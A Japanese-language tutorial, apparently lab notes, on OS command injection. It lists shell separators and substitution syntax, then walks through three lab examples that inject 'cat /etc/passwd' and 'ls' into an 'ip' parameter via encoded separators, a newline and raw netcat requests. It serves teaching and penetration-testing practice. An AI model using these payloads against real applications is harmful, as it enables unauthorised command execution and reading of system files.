

>コマンド インジェクションは、脆弱なアプリケーションを介してホスト オペレーティング システム上で任意のコマンドを実行することを目的とする攻撃です。アプリケーションが安全でないユーザー提供データ (フォーム、Cookie、HTTP ヘッダーなど) をシステム シェルに渡すと、コマンド インジェクション攻撃が可能になります。この攻撃では、攻撃者が提供するオペレーティング システム コマンドは、通常、脆弱なアプリケーションの権限で実行されます。コマンド インジェクション攻撃は、主に不十分な入力検証が原因で発生する可能性があります。
コマンドインジェクションは、コマンドの一部として使用される情報のフィルタリングとエンコーディングの欠如から発生します。最も単純な例は、関数system（コマンドを実行する）を使用して、このコマンドの引数としてHTTPパラメータを取ることから来るものです。
## コマンドセパレータ
WindowsとUnixベースのシステムの両方で使用できます。
```
&
&&
|
||
```
Unix系システムでのみ動作
```
;
Newline (0x0a or \n)
```
Unix系システムでは、バックティックやドル文字を使って、元のコマンドの中で注入されたコマンドをインラインで実行することもできる。
```
`injected command `
$(injected command )
```
制御する入力が元のコマンドの引用符の中に表示されることがあります。このような場合、新しいコマンドを入力するために適切なシェルメタキャラクタを使用する前に、（" または ' を使用します）引用符で囲まれたコンテキストを終了させる必要があります。   


コマンドインジェクションを悪用する方法はたくさんあります。
- 例えば、<span style="color:DeepSkyBlue;">\`id\`</span>のように、バッククオートの中にコマンドを挿入する。
- 最初のコマンドの結果を 2 番目のコマンドにリダイレクトする:<span style="color:DeepSkyBlue;">｜id </span>
- 最初のコマンドが成功した場合に別のコマンドを実行する:<span style="color:DeepSkyBlue;"> && id </span>(ここで & はエンコードする必要がある)
- 最初のコマンドが失敗したら別のコマンドを実行する:（そしてそれが次のようになることを確認します：<span style="color:DeepSkyBlue;">error || id</span>（errorはここでエラーを起こすだけです）。
# <span style="color: blue;">Example 1</span>
```
http://192.168.100.185/commandexec/example1.php?ip=127.0.0.1
```
```
http://192.168.100.185/commandexec/example1.php?ip=127.0.0.1%20%26%26%20cat%20/etc/passwd
```
または
```
http://192.168.100.185/commandexec/example1.php?ip=127.0.0.1%20|%20cat%20/etc/passwd
```
# <span style="color: blue;">Example 2</span>
セパレータを注入する必要さえないことです。エンコードされた<span style="color:red;">改行(%0a)</span>を追加して、コマンドを入れるだけでいい
```
http://192.168.100.185/commandexec/example2.php?ip=127.0.0.1
```
```
http://192.168.100.185/commandexec/example2.php?ip=127.0.0.1%0acat%20/etc/passwd
```
# <span style="color: blue;">Example 3</span>
```
http://192.168.100.185/commandexec/example3.php?ip=127.0.0.1
```
ブラウザはリダイレクトに追従し、リダイレクト先のページを表示しないため、ブラウザでこの脆弱性を容易に利用することはできません。この問題を利用するには、netcat(telnet)を使用することができます。
```
nc 192.168.100.185 80                                                              
GET /commandexec/example3.php?ip=127.0.0.1;cat+/etc/passwd
```

```
echo -e "get http://192.168.100.185/commandexec/example3.php?ip=127.0.0.1;ls HTTP/1.1\r\nHost:192.168.100.185\r\n" | nc 192.168.100.185 80 -v | grep "ex"
```
